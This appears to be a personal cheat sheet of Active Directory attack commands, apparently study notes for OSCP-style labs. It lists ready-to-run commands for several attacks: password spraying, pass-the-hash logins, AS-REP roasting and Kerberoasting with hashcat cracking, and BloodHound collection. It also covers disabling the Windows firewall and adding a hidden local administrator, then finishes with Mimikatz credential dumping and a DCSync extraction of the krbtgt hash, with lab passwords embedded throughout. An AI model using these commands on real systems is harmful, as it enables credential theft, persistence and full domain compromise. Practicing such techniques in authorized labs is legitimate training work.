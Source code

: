 # RDP connect
```
xfreerdp /u:<username> /p:<password> /v:<Machine1_IP>
```

# remote login 
```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

```
evil-winrm -i 192.168.50.220 -u daveadmin -H "hash"
```

```
/usr/share/doc/python3-impacket/examples/psexec.py CORP/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.163.75
```

# Kerberos Enumeration
```
./kerbrute_linux_amd64 userenum --dc 192.168.163.161 -d poseidon.yzx -o kerbrute-user-enum xato-net-10-million-usernames.txt
```

```
sudo./kerbrute_linux_amd64 userenum --dc 192.168.97.100 -d oscp.exam
/usr/share/wordlists/rockyou.txt
```

# GetNPUsers
```
/GetNPUsers.py -usersfile usernames.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 192.168.163.162 'sub.poseidon.yzx/ '
```

```
Impacket-GetNPUsers poseidon.yzx/user1 -dc-ip 192.168.97.100 - request
```

# NP Users hash crack
```
hashcat -m 18200 ./chen.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

# targetedkerberost.py
```
proxychains python targetedKerberoast.py -v -d
'oscp.exam' -u 'Bethan.Gibson' -p 'ServeCrackNail139' --dc-ip
172.16.125.100
```
# targetedkerberoast.py crack
```
hashcat -m 13100 krb_hash /opt/rockyou.txt
```

# BloodHound
```
Import-Module .\Sharphound.ps1
```

```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```

```
powershell -exec bypass -Command "Import-Module .\SharpHound.ps1; Invoke-BloodHound -CollectionMethod All"
```

```
bloodhound-python -u 'jdoe' --hashes 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' -d 'corp.com' -dc 'DC01.corp.com' -c All
```

```
bloodhound-python -u 'jdoe' -p 'Password123!' -d 'corp.com' -dc 'DC01.corp.com' -c All -o /tmp/bh_data
```

```
bloodhound-python -u 'rose' -p 'KxEPkKe6R8su' -d 'sequel.htb' -ns '10.10.11.51' -c All -o /tmp
```

```
proxychains bloodhound-python -u Bethan.Gibson -p
'ServeCrackNail139' -ns 172.16.125.100 -d oscp.exam -c all --dns-
tcp --zip
```
# NXC password spray
```
nxc rdp 192.168.163.0/24 -u iis_service -p Strawberry1 --continue-on-success
```

```
nxc smb 192.168.163.0/24 -u user.txt -p pass.txt --continue-on-success
```

```
nxc smb 172.16.95.240-245 -u john -p dqsTwTpZPn#nL --shares
```

```
nxc winrm 192.168.214.96 -u apache -p 'New2Era4.!' --local-auth
```

# searching files
```
Find-InterestingFile
```

```
cmd /r dir /s local.txt
```

```
cmd /r dir /s proof.txt
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C: -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```


# Shares Enumeration
#### Know available shares 
```
Find-DomainShare
```
 _to access_
```
ls \\dc1.corp.com\sysvol\corp.com\
```

### 1liner
```
Find-DomainShare | ForEach-Object { 
    $path = "\\$($_.ComputerName)\$($_.Name)"; 
    $access = Test-Path $path; 
    Write-Output "$path : $(if ($access) { 'Accessible' } else { 'Inaccessible' })"
}

```

```
Find-DomainShare | ForEach-Object { 
    $path = "\\$($_.ComputerName)\$($_.Name)"; 
    if (Test-Path $path) { Write-Output $path } 
}
```


# Post Exploitation
#### enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### turn of firewall
```
netsh advfirewall set allprofiles state off
```

#### crating another user
```sh
net user astute Test@123 /add
```

#### Adding to administrative group
```sh
net localgroup administrators astute /add
```

# Mimikatz
```
./mimi.exe
privilege::debug
sekurlsa::logonpasswords
```

```
./mimi.exe
privilege::debug
sekurlsa::ekeys
```

```
./mimi.exe
privilege::debug
lsadump::sam
```

```
token::elevate
lsadump::secrets
```

```
safetykatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

```
token::elevate
lsadump::secrets "vault::cred /patch"
```

# DC Sync attack
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
or
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local"
"exit"
```
